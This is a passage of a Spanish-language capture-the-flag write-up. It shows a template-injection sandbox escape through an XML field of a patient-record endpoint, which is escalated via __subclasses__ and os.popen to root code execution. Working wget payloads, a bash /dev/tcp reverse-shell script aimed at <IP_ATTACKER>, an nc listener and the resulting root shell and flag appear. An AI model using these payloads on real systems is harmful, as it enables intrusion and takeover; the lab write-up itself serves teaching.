'typing._BoundVarianceMixin'>, <class 'typing.Generic'>, <class 'typing._TypingEllipsis'>, <class 'typing.Annotated'>, <class 'typing.NamedTuple'>, <class 'typing.TypedDict'>, <class 'typing.NewType'>, <class 'typing.io'>, <class 'typing.re'>, <class 'ast.AST'>, <class 'markupsafe._MarkupEscapeHelper'>, <class '__future__._Feature'>, <class '_json.Scanner'>, <class '_json.Encoder'>, <class 'json.decoder.JSONDecoder'>, <class 'json.encoder.JSONEncoder'>, <class '_struct.Struct'>, <class '_struct.unpack_iterator'>, <class '_pickle.Pdata'>, <class '_pickle.PicklerMemoProxy'>, <class '_pickle.UnpicklerMemoProxy'>, <class '_pickle.Pickler'>, <class '_pickle.Unpickler'>, <class 'pickle._Framer'>, <class 'pickle._Unframer'>, <class 'pickle._Pickler'>, <class 'pickle._Unpickler'>, <class 'zlib.Compress'>, <class 'zlib.Decompress'>, <class '_bz2.BZ2Compressor'>, <class '_bz2.BZ2Decompressor'>, <class '_lzma.LZMACompressor'>, <class '_lzma.LZMADecompressor'>, <class '_random.Random'>, <class '_sha512.sha384'>, <class '_sha512.sha512'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class 'weakref.finalize._Info'>, <class 'weakref.finalize'>, <class 'tempfile._RandomNameSequence'>, <class 'tempfile._TemporaryFileCloser'>, <class 'tempfile._TemporaryFileWrapper'>, <class 'tempfile.TemporaryDirectory'>, <class '_hashlib.HASH'>, <class '_hashlib.HMAC'>, <class '_blake2.blake2b'>, <class '_blake2.blake2s'>, <class 'jinja2.bccache.Bucket'>, <class 'jinja2.bccache.BytecodeCache'>, <class 'ast.NodeVisitor'>, <class 'dis._Unknown'>, <class 'dis.Bytecode'>, <class 'tokenize.Untokenizer'>, <class 'inspect.BlockFinder'>, <class 'inspect._void'>, <class 'inspect._empty'>, <class 'inspect.Parameter'>, <class 'inspect.BoundArguments'>, <class 'inspect.Signature'>, <class 'threading._RLock'>, <class 'threading.Condition'>, <class 'threading.Semaphore'>, <class 'threading.Event'>, <class 'threading.Barrier'>, <class 'threading.Thread'>, <class 'ipaddress._IPAddressBase'>, <class 'ipaddress._BaseConstants'>, <class 'ipaddress._BaseV4'>, <class 'ipaddress._IPv4Constants'>, <class 'ipaddress._BaseV6'>, <class 'ipaddress._IPv6Constants'>, <class 'urllib.parse._ResultMixinStr'>, <class 'urllib.parse._ResultMixinBytes'>, <class 'urllib.parse._NetlocResultMixinBase'>, <class 'jinja2.utils.MissingType'>, <class 'jinja2.utils.LRUCache'>, <class 'jinja2.utils.Cycler'>, <class 'jinja2.utils.Joiner'>, <class 'jinja2.utils.Namespace'>, <class 'jinja2.nodes.EvalContext'>, <class 'jinja2.nodes.Node'>, <class 'jinja2.visitor.NodeVisitor'>, <class 'jinja2.idtracking.Symbols'>, <class 'jinja2.compiler.MacroRef'>, <class 'jinja2.compiler.Frame'>, <class 'jinja2.runtime.TemplateReference'>, <class 'jinja2.runtime.Context'>, <class 'jinja2.runtime.BlockReference'>, <class 'jinja2.runtime.LoopContext'>, <class 'jinja2.runtime.Macro'>, <class 'jinja2.runtime.Undefined'>, <class 'numbers.Number'>, <class 'jinja2.lexer.Failure'>, <class 'jinja2.lexer.TokenStreamIterator'>, <class 'jinja2.lexer.TokenStream'>, <class 'jinja2.lexer.Lexer'>, <class 'jinja2.parser.Parser'>, <class 'jinja2.environment.Environment'>, <class 'jinja2.environment.Template'>, <class 'jinja2.environment.TemplateModule'>, <class 'jinja2.environment.TemplateExpression'>, <class 'jinja2.environment.TemplateStream'>, <class 'importlib._abc.Loader'>, <class 'jinja2.loaders.BaseLoader'>, <class 'select.poll'>, <class 'select.epoll'>, <class 'selectors.BaseSelector'>, <class '_socket.socket'>, <class 'array.array'>, <class 'array.arrayiterator'>, <class 'socketserver.BaseServer'>, <class 'socketserver.ForkingMixIn'>, <class 'socketserver._NoThreads'>, <class 'socketserver.ThreadingMixIn'>, <class 'socketserver.BaseRequestHandler'>, <class 'datetime.date'>, <class 'datetime.time'>, <class 'datetime.timedelta'>, <class 'datetime.tzinfo'>, <class 'calendar._localized_month'>, <class 'calendar._localized_day'>, <class 'calendar.Calendar'>, <class 'calendar.different_locale'>, <class 'email._parseaddr.AddrlistClass'>, <class 'email.charset.Charset'>, <class 'email.header.Header'>, <class 'email.header._ValueFormatter'>, <class 'email._policybase._PolicyBase'>, <class 'email.feedparser.BufferedSubFile'>, <class 'email.feedparser.FeedParser'>, <class 'email.parser.Parser'>, <class 'email.parser.BytesParser'>, <class 'email.message.Message'>, <class 'http.client.HTTPConnection'>, <class '_ssl._SSLContext'>, <class '_ssl._SSLSocket'>, <class '_ssl.MemoryBIO'>, <class '_ssl.SSLSession'>, <class '_ssl.Certificate'>, <class 'ssl.SSLObject'>, <class 'mimetypes.MimeTypes'>, <class 'textwrap.TextWrapper'>, <class 'traceback._Sentinel'>, <class 'traceback.FrameSummary'>, <class 'traceback._ExceptionPrintContext'>, <class 'traceback.TracebackException'>, <class 'logging.LogRecord'>, <class 'logging.PercentStyle'>, <class 'logging.Formatter'>, <class 'logging.BufferingFormatter'>, <class 'logging.Filter'>, <class 'logging.Filterer'>, <class 'logging.PlaceHolder'>, <class 'logging.Manager'>, <class 'logging.LoggerAdapter'>, <class 'werkzeug._internal._Missing'>, <class 'werkzeug.exceptions.Aborter'>, <class 'urllib.request.Request'>, <class 'urllib.request.OpenerDirector'>, <class 'urllib.request.BaseHandler'>, <class 'urllib.request.HTTPPasswordMgr'>, <class 'urllib.request.AbstractBasicAuthHandler'>, <class 'urllib.request.AbstractDigestAuthHandler'>, <class 'urllib.request.URLopener'>, <class 'urllib.request.ftpwrapper'>, <class 'http.cookiejar.Cookie'>, <class 'http.cookiejar.CookiePolicy'>, <class 'http.cookiejar.Absent'>, <class 'http.cookiejar.CookieJar'>, <class 'werkzeug.datastructures.ImmutableListMixin'>, <class 'werkzeug.datastructures.ImmutableDictMixin'>, <class 'werkzeug.datastructures._omd_bucket'>, <class 'werkzeug.datastructures.Headers'>, <class 'werkzeug.datastructures.ImmutableHeadersMixin'>, <class 'werkzeug.datastructures.IfRange'>, <class 'werkzeug.datastructures.Range'>, <class 'werkzeug.datastructures.ContentRange'>, <class 'werkzeug.datastructures.FileStorage'>, <class 'dataclasses._HAS_DEFAULT_FACTORY_CLASS'>, <class 'dataclasses._MISSING_TYPE'>, <class 'dataclasses._KW_ONLY_TYPE'>, <class 'dataclasses._FIELD_BASE'>, <class 'dataclasses.InitVar'>, <class 'dataclasses.Field'>, <class 'dataclasses._DataclassParams'>, <class 'werkzeug.sansio.multipart.Event'>, <class 'werkzeug.sansio.multipart.MultipartDecoder'>, <class 'werkzeug.sansio.multipart.MultipartEncoder'>, <class 'pkgutil.ImpImporter'>, <class 'pkgutil.ImpLoader'>, <class 'unicodedata.UCD'>, <class 'hmac.HMAC'>, <class 'werkzeug.wsgi.ClosingIterator'>, <class 'werkzeug.wsgi.FileWrapper'>, <class 'werkzeug.wsgi._RangeWrapper'>, <class 'werkzeug.formparser.FormDataParser'>, <class 'werkzeug.formparser.MultiPartParser'>, <class 'werkzeug.user_agent.UserAgent'>, <class 'werkzeug.sansio.request.Request'>, <class 'werkzeug.sansio.response.Response'>, <class 'werkzeug.wrappers.response.ResponseStream'>, <class 'werkzeug.test._TestCookieHeaders'>, <class 'werkzeug.test._TestCookieResponse'>, <class 'werkzeug.test.EnvironBuilder'>, <class 'werkzeug.test.Client'>, <class 'werkzeug.local.Local'>, <class 'werkzeug.local.LocalManager'>, <class 'werkzeug.local._ProxyLookup'>, <class 'flask.globals._FakeStack'>, <class 'decimal.Decimal'>, <class 'decimal.Context'>, <class 'decimal.SignalDictMixin'>, <class 'decimal.ContextManager'>, <class 'platform._Processor'>, <class 'uuid.UUID'>, <class 'flask.json.provider.JSONProvider'>, <class 'gettext.NullTranslations'>, <class 'click._compat._FixupStream'>, <class 'click._compat._AtomicFile'>, <class 'click.utils.LazyFile'>, <class 'click.utils.KeepOpenFile'>, <class 'click.utils.PacifyFlushWrapper'>, <class 'click.types.ParamType'>, <class 'click.parser.Option'>, <class 'click.parser.Argument'>, <class 'click.parser.ParsingState'>, <class 'click.parser.OptionParser'>, <class 'click.formatting.HelpFormatter'>, <class 'click.core.Context'>, <class 'click.core.BaseCommand'>, <class 'click.core.Parameter'>, <class 'werkzeug.routing.converters.BaseConverter'>, <class 'difflib.SequenceMatcher'>, <class 'difflib.Differ'>, <class 'difflib.HtmlDiff'>, <class 'pprint._safe_key'>, <class 'pprint.PrettyPrinter'>, <class 'werkzeug.routing.rules.RulePart'>, <class 'werkzeug.routing.rules.RuleFactory'>, <class 'werkzeug.routing.rules.RuleTemplate'>, <class 'werkzeug.routing.matcher.State'>, <class 'werkzeug.routing.matcher.StateMachineMatcher'>, <class 'werkzeug.routing.map.Map'>, <class 'werkzeug.routing.map.MapAdapter'>, <class 'blinker._saferef.BoundMethodWeakref'>, <class 'blinker._utilities._symbol'>, <class 'blinker._utilities.symbol'>, <class 'blinker._utilities.lazy_property'>, <class 'blinker.base.Signal'>, <class 'flask.cli.ScriptInfo'>, <class 'flask.config.ConfigAttribute'>, <class 'flask.ctx._AppCtxGlobals'>, <class 'flask.ctx.AppContext'>, <class 'flask.ctx.RequestContext'>, <class 'pathlib._Flavour'>, <class 'pathlib._Selector'>, <class 'pathlib._TerminatingSelector'>, <class 'pathlib.PurePath'>, <class 'flask.scaffold.Scaffold'>, <class 'itsdangerous.signer.SigningAlgorithm'>, <class 'itsdangerous.signer.Signer'>, <class 'itsdangerous.serializer.Serializer'>, <class 'itsdangerous._json._CompactJSON'>, <class 'flask.json.tag.JSONTag'>, <class 'flask.json.tag.TaggedJSONSerializer'>, <class 'flask.sessions.SessionInterface'>, <class 'flask.blueprints.BlueprintSetupState'>, <class 'xml.etree.ElementPath._SelectorContext'>, <class 'xml.etree.ElementTree.Element'>, <class 'xml.etree.ElementTree.QName'>, <class 'xml.etree.ElementTree.ElementTree'>, <class 'xml.etree.ElementTree.XMLPullParser'>, <class 'xml.etree.ElementTree.C14NWriterTarget'>, <class '_elementtree._element_iterator'>, <class 'xml.etree.ElementTree.TreeBuilder'>, <class 'xml.etree.ElementTree.Element'>, <class 'xml.etree.ElementTree.XMLParser'>, <class 'pyexpat.xmlparser'>, <class 'dotenv.parser.Position'>, <class 'dotenv.parser.Reader'>, <class 'dotenv.variables.Atom'>, <class 'dotenv.main.DotEnv'>, <class 'colorama.ansi.AnsiCodes'>, <class 'colorama.ansi.AnsiCursor'>, <class 'CArgObject'>, <class '_ctypes.CThunkObject'>, <class '_ctypes._CData'>, <class '_ctypes.CField'>, <class '_ctypes.DictRemover'>, <class '_ctypes.StructParam_Type'>, <class 'ctypes.CDLL'>, <class 'ctypes.LibraryLoader'>, <class 'ctypes._endian._swapped_meta'>, <class 'colorama.winterm.WinColor'>, <class 'colorama.winterm.WinStyle'>, <class 'colorama.winterm.WinTerm'>, <class 'colorama.ansitowin32.StreamWrapper'>, <class 'colorama.ansitowin32.AnsiToWin32'>] a (M), 26 years old, received from a at 1
```

Esto devuelve una lista enorme de clases cargadas en memoria.

***

> ⚠️ ¿Por qué es importante?

Porque entre esas clases existen objetos que contienen referencias a `__globals__`, lo que nos permite acceder a `__builtins__` y finalmente ejecutar comandos del sistema.

***

### Localizando un punto de pivot

Buscamos una clase útil dentro de `__subclasses__()`.

Una técnica clásica es localizar:

```python
warnings.catch_warnings
```

Encontramos su índice dinámicamente:

```shell
wget -qO- \
--header="Content-Type: application/xml" \
--post-data='<patient><firstname>{().__class__.__mro__.__getitem__(1).__subclasses__().index(__import__("warnings").catch_warnings)}</firstname><lastname>a</lastname><sender_app>a</sender_app><timestamp>1</timestamp><birth_date>01/01/2000</birth_date><gender>M</gender></patient>' \
http://127.0.0.1:54321/addPatient
```

Respuesta:

```
Patient 204 a (M), 26 years old, received from a at 1
```

Esto significa que la clase `catch_warnings` está en la posición 204.

### Obtención de RCE

Ahora usamos esa clase para acceder a:

```python
.__init__.__globals__.__builtins__.__import__
```

Desde ahí podemos importar os y ejecutar comandos.

Payload final:

```shell
wget -qO- \
--header="Content-Type: application/xml" \
--post-data='<patient><firstname>{().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(204).__init__.__globals__.__getitem__("__builtins__").__getitem__("__import__")("os").popen("id").read()}</firstname><lastname>a</lastname><sender_app>a</sender_app><timestamp>1</timestamp><birth_date>01/01/2000</birth_date><gender>M</gender></patient>' \
http://127.0.0.1:54321/addPatient
```

Respuesta:

```
Patient uid=0(root) gid=0(root) groups=0(root) a (M), 26 years old, received from a at 1
```

Con esto vemos que se esta ejecutando de forma correcta, pero como hemos visto antes, escapa algunos caracteres entre ellos los espacios, por lo que no podremos concatenar comandos dentro del `import` de `os`, vamos a simplificar este `RCE` mucho mas, para ello crearemos un `.sh` que podamos ejecutar desde el `os`.

> shell.sh

```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1
```

Ahora le ponemos permisos de ejecuccion.

```shell
chmod +x /tmp/shell.sh
```

Antes de ejecutar el archivo nos pondremos a la escucha.

```shell
nc -lvnp <PORT>
```

Hecho esto vamos a ejecutar el `shell.sh` mediante el `endpoint` con ese `os` vulnerable de esta forma:

```shell
wget -qO- --header="Content-Type: application/xml" --post-data='<patient><firstname>{().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(204).__init__.__globals__.__getitem__("__builtins__").__getitem__("__import__")("os").popen("/tmp/shell.sh").read()}</firstname><lastname>a</lastname><sender_app>a</sender_app><timestamp>1</timestamp><birth_date>01/01/2000</birth_date><gender>M</gender></patient>' http://127.0.0.1:54321/addPatient
```

Ahora si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [10.10.14.111] from (UNKNOWN) [10.129.4.244] 53934
bash: cannot set terminal process group (3449): Inappropriate ioctl for device
bash: no job control in this shell
root@interpreter:/usr/local/bin# whoami
whoami
root
```

Vemos que ha funcionado, por lo que seremos el usuario `root` y con ello podremos leer la `flag` de `root`.

> root.txt

```
f1ec4413c6daf6369deaf822376553ae
```
